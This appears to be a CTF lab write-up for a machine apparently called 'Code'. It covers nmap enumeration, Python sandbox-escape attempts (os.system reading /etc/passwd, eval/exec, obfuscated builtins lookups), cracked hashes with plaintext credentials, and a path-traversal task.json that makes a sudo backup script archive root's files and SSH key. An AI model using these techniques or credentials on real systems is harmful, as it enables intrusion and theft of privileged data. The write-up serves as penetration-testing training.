







The first thing IP Address: 10.129.194.232

NMAP Enumeration:

```
└─$ nmap -sC -sV 10.129.194.232
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-07 19:57 EDT
Nmap scan report for 10.129.194.232
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.41 seconds


```

Information: Gunicorn 20.0.4 is a specific version of the Gunicorn Python WSGI HTTP server.

From the enumeration, there is a 5000 port opened, which is http protocol. While opening it, there is a python interpreter. 

See the Figure 1:


Python Version: ``` 3.8.10 ``` 
More information: https://www.vicarius.io/vsociety/posts/cve-2023-24329-bypassing-url-blackslisting-using-blank-in-python-urllib-library-4

By trying this, there is no such run, which give us an answer. 

There is another function, called globals()
Let's see: 
in Python, the globals() function is a built-in function that returns a dictionary representing the current global symbol table. A symbol table is a data structure that contains all necessary information about the program. These include variable names, methods, classes. 

See the Figure 2:


There are useful for pentester functions: eval(), exec(). 
For example, we can use next:

If there's an interactive Python environment or a way to inject Python code (such as via input fields or HTTP requests), you could try:

import os
os.system("cat /etc/passwd")

eval("__import__('os').system('ls -la')")

exec("__import__('subprocess').getoutput('id')")

For trying it, we have some same answer fetched by the python interpreter:

See the Figure 3:


See the Figure 4:


So, lets see Figure 5:


There is something I have  got with obfuscation:

```

built_name = ''.join([chr(95), chr(95), chr(98), chr(117), chr(105), chr(108), chr(116), chr(105), chr(110), chr(115), chr(95), chr(95)]) 
built_ref = globals().get(built_name, None) 

ev_name = ''.join([chr(101), chr(118), chr(97), chr(108)])  #
ex_name = ''.join([chr(101), chr(120), chr(101), chr(99)])  #'


ev_func = built_ref.get(ev_name, None)
ex_func = built_ref.get(ex_name, None)   


if ev_func:
    expression = ''.join([str(50), ' + ', str(51)])  # This builds '2 + 3'
    result = ev_func(expression)
    print("Obfuscated Result of ev:", result)
else:
    print("ev function not found!")
if ex_func:
    code = ''.join([
        'result = ',  
        str(50), ' + ', str(51)  
    ])  
    ex_func(code)
    print("Ob Result of ex:", result)
else:
    print("ex function not found!")
```

Interpreter Answer:
```
Obfuscated Result of ev: 101 Ob Result of ex: 101  
```

THOSE ARE TRIES ABOVE THAT LEAD NOWHERE

There is another way, that AI helped me with: 


From ChatGPT, there is a command in python, which allows us to see the contents:


Using CrackStation URL  
There hashes: 
1. 759b74ce43947f5f4c91aeddc3e5bad3:development   (development:development)
2. 3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster (martin:nafeelswordsmaster)

Useful URL: https://linuxize.com/post/how-to-use-scp-command-to-securely-transfer-files/

# Privilege Escalation

Command: sudo -l

```
martin@code:~/backups$ sudo -l 
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh

```

```
martin@code:~/backups$ nano task.json 
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json
2025/07/08 13:43:25 🍀 backy 1.2
2025/07/08 13:43:25 📋 Working with task.json ...
2025/07/08 13:43:25 💤 Nothing to sync
2025/07/08 13:43:25 📤 Archiving: [/home/app-production]
2025/07/08 13:43:25 📥 To: /home/martin/backups ...
2025/07/08 13:43:25 📦
martin@code:~/backups$ ls
code_home_app-production_2025_July.tar.bz2        task.json
```

```
└─$ scp martin@10.129.231.240:/home/martin/backups/code_home_app-production_2025_July.tar.bz2 .
martin@10.129.231.240's password: 
code_home_app-production_2025_July.tar.bz2 100% 8612    31.4KB/s   00:00    
                                                                             
┌──(kali㉿kali)-[~]
└─$ ls
burp                                              Downloads   Public
code_home_app-production_2025_July.tar.bz2        GitDump     Sublist3r
code_home_app-production_app_2024_August.tar.bz2  git-dumper  Templates
compliance                                        home        Videos
Desktop                                           Music
Documents                                         Pictures
                                                                             
┌──(kali㉿kali)-[~]
└─$ tar -xf code_home_app-production_2025_July.tar.bz2 
                                                                             
┌──(kali㉿kali)-[~]
└─$ ls
burp                                              Downloads   Public
code_home_app-production_2025_July.tar.bz2        GitDump     Sublist3r
code_home_app-production_app_2024_August.tar.bz2  git-dumper  Templates
compliance                                        home        Videos
Desktop                                           Music
Documents                                         Pictures
                                                                             
┌──(kali㉿kali)-[~]
└─$ cd home   
                                                                             
┌──(kali㉿kali)-[~/home]
└─$ ls
app-production
                                                                             
┌──(kali㉿kali)-[~/home]
└─$ cd app-production 
                                                                             
┌──(kali㉿kali)-[~/home/app-production]
└─$ ls
app  user.txt
                                                                             
┌──(kali㉿kali)-[~/home/app-production]
└─$ cat user.txt
```

task.json

```
{
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
  ]
}
EOF
```

```
martin@code:~$ sudo /usr/bin/backy.sh root-steal.json
2025/07/08 15:38:05 🍀 backy 1.2
2025/07/08 15:38:05 📋 Working with root-steal.json ...
2025/07/08 15:38:05 💤 Nothing to sync
2025/07/08 15:38:05 📤 Archiving: [/home/../root]
2025/07/08 15:38:05 📥 To: /home/martin ...
2025/07/08 15:38:05 📦
tar: Removing leading `/home/../' from member names
/home/../root/
/home/../root/.local/
/home/../root/.local/share/
/home/../root/.local/share/nano/
/home/../root/.local/share/nano/search_history
/home/../root/.selected_editor
/home/../root/.sqlite_history
/home/../root/.profile
/home/../root/scripts/
/home/../root/scripts/cleanup.sh
/home/../root/scripts/backups/
/home/../root/scripts/backups/task.json
/home/../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/home/../root/scripts/database.db
/home/../root/scripts/cleanup2.sh
/home/../root/.python_history
/home/../root/root.txt
/home/../root/.cache/
/home/../root/.cache/motd.legal-displayed
/home/../root/.ssh/
/home/../root/.ssh/id_rsa
/home/../root/.ssh/authorized_keys
/home/../root/.bash_history
/home/../root/.bashrc
martin@code:~$ ls
backups  code_home_.._root_2025_July.tar.bz2  evil  root-steal.json
```


```
martin@code:~$ mkdir root_dir
martin@code:~$ tar -xvf code_home_.._root_2025_July.tar.bz2 -C /home/martin/root_dir
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc
martin@code:~$ ls
backups                              evil      root-steal.json
code_home_.._root_2025_July.tar.bz2  root_dir
martin@code:~$ cd root_dir/
martin@code:~/root_dir$ ls
root
martin@code:~/root_dir$ cd root
martin@code:~/root_dir/root$ ls
root.txt  scripts
martin@code:~/root_dir/root$ cat root.txt

```

